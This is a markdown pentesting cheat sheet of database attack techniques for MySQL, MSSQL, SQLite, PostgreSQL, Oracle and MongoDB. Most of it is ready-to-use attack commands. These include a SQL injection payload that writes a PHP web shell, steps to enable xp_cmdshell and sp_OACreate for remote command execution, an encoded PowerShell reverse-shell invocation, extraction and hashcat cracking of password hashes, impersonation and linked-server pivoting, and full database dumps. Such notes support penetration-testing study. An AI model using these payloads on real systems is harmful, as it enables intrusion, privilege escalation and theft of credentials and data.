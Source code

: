 ```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`


## MSSQL
- Database management built into Windows
	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
	- Users vs. logins
		- Both users and logins are required to perform database operations
		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
			- These can be local database users, like `sa`, local Windows users, or Domain users
			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
		- Logins provide users access to specific databases within the server
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- **Impacket's MSSqlClient** 
	- Kali has the very useful `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth 
	- **Command Execution**
		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
	- **Password Hashes**
		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
		- Can be cracked with hashcat, but they need to be reorganized
			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
			- Then crack with `hashcat -m 1731`
	- **Impersonation**
		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
			- The `dbo` login stands for Database Owner and gives full control over that database
	- **Linked servers**
		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
		- This will show us what linked servers our current user can use
			- This will show which users have remote login permissions
				- If local login `NULL` has a remote login, we can just execute queries without auth
				- What will be more likely is a user that has impersonation rights with a remote login on another server
					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Enabling `xp_cmdshell`:
	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
		- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; `
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
- Can also use `sp_OACreate` to execute system commands:
	- `sp_configure 'show advanced options', 1;`
	- `RECONFIGURE;` 
	- `sp_configure 'Ole Automation Procedures', 1;`
	- `RECONFIGURE;`
	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

## PostgreSQL
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY mytable TO PROGRAM 'whoami';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
